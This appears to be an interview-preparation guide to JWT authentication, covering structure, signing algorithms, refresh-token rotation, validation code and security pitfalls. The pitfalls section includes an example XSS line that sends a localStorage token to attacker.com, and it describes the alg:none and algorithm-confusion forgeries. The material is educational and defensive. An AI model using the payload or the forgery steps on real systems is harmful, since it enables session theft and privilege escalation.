



# JWT Tokens

A JSON Web Token (JWT) is a compact, URL-safe, self-contained token that encodes claims as a JSON object and is cryptographically signed to prevent tampering. JWTs allow a server to issue a token that any other server can verify without a database lookup — the signature proves authenticity, the payload carries the user identity and permissions. They are the workhorse of stateless authentication and API authorization in modern distributed systems.

> **Why this matters in interviews:** JWT is one of the most commonly used — and commonly misused — technologies in web security. Interviewers will ask you to explain JWT structure, the difference between signing and encryption, how refresh tokens work, and crucially, what can go wrong. Knowing the security pitfalls (the `alg:none` attack, weak secrets, localStorage storage, missing expiry validation) separates a senior engineer from a junior one.

---

## JWT Structure

A JWT has three Base64Url-encoded parts separated by dots: `header.payload.signature`

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9
.
eyJzdWIiOiJ1c2VyXzEyMyIsImVtYWlsIjoiYWxpY2VAZXhhbXBsZS5jb20iLCJyb2xlcyI6WyJhZG1pbiJdLCJpYXQiOjE3MTY5OTY0MDAsImV4cCI6MTcxNjk5NjkwMH0
.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

### Header

Specifies the token type and signing algorithm:

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
```

### Payload (Claims)

The claims — statements about the entity (typically the user):

```json
{
  "sub": "user_123",
  "email": "alice@example.com",
  "roles": ["admin"],
  "iat": 1716996400,
  "exp": 1716996900,
  "iss": "https://auth.example.com",
  "aud": "https://api.example.com"
}
```

**Standard claims:**

| Claim | Meaning | Notes |
|---|---|---|
| `sub` | Subject — who the token is about | Typically a user ID |
| `iss` | Issuer — who issued the token | Your auth server URL |
| `aud` | Audience — who should consume this token | Your API URL |
| `exp` | Expiration time (Unix timestamp) | Always set this |
| `iat` | Issued-at time | When the token was created |
| `jti` | JWT ID | Unique ID for this token (for revocation) |

### Signature

Computed using the algorithm in the header:

```
# For RS256:
signature = RSA_SHA256(
    base64url(header) + "." + base64url(payload),
    private_key
)

# Verification (any server with the public key):
RSA_SHA256_verify(
    base64url(header) + "." + base64url(payload),
    signature,
    public_key
)
```

**Critical:** The payload is only Base64-encoded, not encrypted. Anyone can decode and read JWT claims — **never put sensitive data (passwords, credit card numbers, SSNs) in a JWT payload.** The signature prevents tampering, not reading.

---

## Signing Algorithms



**Recommendation for production:** Use **RS256** or **ES256** (asymmetric). Your authorization server holds the private key and signs tokens. Your APIs hold the public key (or fetch it via JWKS endpoint) and verify tokens. No service other than the auth server can create valid tokens — unlike HMAC where any service with the shared secret could forge tokens.

**JWKS (JSON Web Key Set):** A standard endpoint where your auth server publishes its public keys:
```
GET https://auth.example.com/.well-known/jwks.json

{
  "keys": [{
    "kty": "RSA",
    "use": "sig",
    "kid": "key-id-1",
    "n": "modulus...",
    "e": "AQAB"
  }]
}
```

API servers can fetch and cache these keys, enabling automatic key rotation without downtime.

---

## Access Tokens and Refresh Tokens

Short-lived access tokens + long-lived refresh tokens solve the revocation vs. scalability tension:



| Token | Lifetime | Stored | Revocable |
|---|---|---|---|
| **Access Token** | Short (5-15 min) | Client memory or HttpOnly cookie | No (self-contained) — expires naturally |
| **Refresh Token** | Long (7-30 days) | Server DB + HttpOnly cookie | Yes — stored in DB, can be deleted |

**Refresh Token Rotation:** Every time a refresh token is used, issue a new one and invalidate the old one. This enables **detection of refresh token theft**: if an attacker uses a stolen refresh token and the original client tries to use the same (now invalidated) token, the auth server detects the anomaly and revokes the entire refresh token family — logging out all sessions.

---

## JWT Validation — Full Checklist

A server receiving a JWT must validate all of the following:



```python
import jwt  # PyJWT

PUBLIC_KEY = open("auth-server-public.pem").read()

def verify_access_token(token: str) -> dict:
    try:
        payload = jwt.decode(
            token,
            PUBLIC_KEY,
            algorithms=["RS256"],       # Explicitly whitelist — never accept "none"
            issuer="https://auth.example.com",
            audience="https://api.example.com",
            options={
                "verify_exp": True,     # Verify expiration (default True in PyJWT)
                "require": ["exp", "iss", "aud", "sub"]  # Require these claims
            }
        )
        return payload
    except jwt.ExpiredSignatureError:
        raise HTTPException(status_code=401, detail="Token expired")
    except jwt.InvalidTokenError as e:
        raise HTTPException(status_code=401, detail="Invalid token")
```

---

## Security Pitfalls

### 1. The `alg:none` Attack (Critical)

Some early JWT libraries accepted `alg: "none"` in the header — meaning the signature was not required. An attacker could decode a valid JWT, modify the payload (e.g., change `"role": "user"` to `"role": "admin"`), re-encode with `alg: "none"`, and no signature was needed:

```json
{ "alg": "none", "typ": "JWT" }
.
{ "sub": "attacker", "role": "admin" }  ← modified
.
(empty signature)
```

**Fix:** Never accept `"none"` as an algorithm. Always whitelist exactly the algorithms you expect (`RS256`, `ES256`). Modern JWT libraries reject `alg:none` by default.

### 2. Algorithm Confusion Attack (HS256 vs RS256)

If your server uses RS256 but the library accepts any algorithm, an attacker can change the header to `"alg": "HS256"` and sign the JWT using the server's **public key** as the HMAC secret:

```
Attacker takes the server's public key (which is public, by design)
Signs a modified payload with HS256 using the public key as the secret
The server, if it accepts any algorithm, validates the HS256 signature using the public key — and it works!
```

**Fix:** Explicitly whitelist the exact algorithm(s) your server uses.

### 3. Storing JWTs in localStorage

`localStorage` is readable by any JavaScript on the page. XSS vulnerabilities (injecting malicious JavaScript) immediately expose all localStorage tokens:

```javascript
// Attacker's XSS payload
fetch('https://attacker.com/steal?token=' + localStorage.getItem('access_token'))
```

**Fix:** Use `HttpOnly` cookies. They cannot be read by JavaScript.

### 4. Missing Expiry or Overly Long Expiry

JWTs without an `exp` claim (or with a 30-day expiry) mean that a stolen token is valid indefinitely (or for a month). Since JWTs cannot be individually revoked, long-lived tokens are a serious security risk.

**Fix:** Access tokens should expire in 5-15 minutes. Use refresh tokens (which can be revoked) for long-term sessions.

### 5. Sensitive Data in Payload

The JWT payload is only Base64-encoded — anyone who intercepts the token can decode and read it. Never include passwords, credit card numbers, SSNs, or private health information in JWT claims.

**Fix:** Only include non-sensitive identifiers (user_id, roles, scopes) in JWT claims.

---

## JWT vs Opaque Tokens

| Dimension | JWT (Self-Contained) | Opaque Token |
|---|---|---|
| **Verification** | Any server with the public key — no DB lookup | Must call the auth server's introspection endpoint |
| **Revocation** | Hard — valid until expiry | Instant — delete from DB |
| **Payload** | Claims embedded — roles, permissions accessible offline | No payload — must call auth server to get user info |
| **Size** | ~500+ bytes | ~32 bytes (random ID) |
| **Best for** | Stateless microservices, high-throughput APIs | Sessions requiring instant revocation, sensitive access |

Many production systems use **both**: JWTs for short-lived API authorization (fast, stateless), opaque refresh tokens stored server-side (revocable, for session management).

---

## Interview Talking Points

**1. Explain the structure and security properties of a JWT.**
> "A JWT has three parts separated by dots: a Base64Url-encoded header specifying the type and algorithm, a Base64Url-encoded payload containing the claims (user ID, roles, expiry, issuer, audience), and a cryptographic signature. The signature is computed over the header and payload — if either is tampered with, the signature check fails. This lets any server with the correct key verify the token's authenticity without calling a central database. The critical thing to understand is that Base64 is encoding, not encryption — anyone who intercepts a JWT can read the payload. The signature prevents modification but not reading. So I never put sensitive data in JWTs — only non-sensitive identifiers like user_id and permission scopes."

**2. What is the `alg:none` JWT vulnerability?**
> "It's one of the most serious JWT implementation flaws. Some JWT libraries once trusted the algorithm specified in the token's own header — including 'none', which means no signature required. An attacker could take a valid JWT, decode it, modify the payload (changing their role to 'admin'), set the algorithm header to 'none', and send the unsigned token. If the library accepted alg:none, it would validate successfully without any signature check. The fix is simple but must be explicit: always whitelist the exact algorithm(s) your server uses. Never accept any algorithm the token claims — the algorithm must be configured server-side. Modern JWT libraries reject 'none' by default, but older code and misconfigured systems remain vulnerable."

**3. How do you handle JWT revocation given that JWTs are stateless?**
> "JWT revocation is the fundamental tension in stateless token design. The cleanest solution is keeping access tokens very short-lived — 5 to 15 minutes. A stolen access token expires quickly, limiting the damage window. For logout and session invalidation, you rely on the refresh token: refresh tokens are stored in a database and can be instantly deleted. Pair this with refresh token rotation: every time a refresh token is used, issue a new one and invalidate the old one. If an attacker steals a refresh token and uses it, the auth server sees the original token used twice — it invalidates the entire token family and forces re-authentication. For true immediate revocation of access tokens (account suspension, security incident), you need a token denylist — a cache (Redis) of revoked JTI (JWT ID) values — checked on every request. This reintroduces server state but gives you instant revocation."

**4. When would you use opaque tokens instead of JWTs?**
> "JWTs are ideal when you want stateless, high-throughput verification — microservices where any instance can validate a token using the public key without a database call. Opaque tokens are better when you need instant revocation — for example, banking applications where you need to immediately invalidate a token if fraud is detected, or admin platforms where you want to force logout any session right now. Opaque tokens are just random IDs that reference a server-side record. Validation requires calling the auth server's introspection endpoint or a shared Redis cache — adding latency but enabling instant invalidation. I often combine both: JWTs for short-lived API access tokens (fast, no DB lookup, 5-minute expiry limits blast radius), opaque tokens for refresh tokens (stored in DB, instantly revocable, support refresh token rotation and theft detection)."

---

## Key Takeaways

- **JWT structure:** header (alg + type) + payload (claims) + signature — Base64-encoded, not encrypted
- **Payload is readable by anyone** — never include sensitive data (passwords, SSNs, financial data)
- **Always whitelist algorithms explicitly** — never trust the `alg` header from the token; reject `alg:none`
- **RS256/ES256 (asymmetric)** is preferred over HS256 (symmetric) for distributed systems — private key signs, public key verifies
- **Validate all claims:** signature, expiration (`exp`), issuer (`iss`), audience (`aud`) — all must pass
- **Short-lived access tokens** (5-15 min) + **long-lived refresh tokens** (7-30 days, stored in DB, revocable)
- **Refresh token rotation** enables theft detection — using an already-used refresh token triggers full session revocation
- **Store tokens in HttpOnly cookies**, not localStorage — XSS cannot read HttpOnly cookies
- **For instant revocation:** use a JTI denylist in Redis or rely on opaque tokens with server-side storage
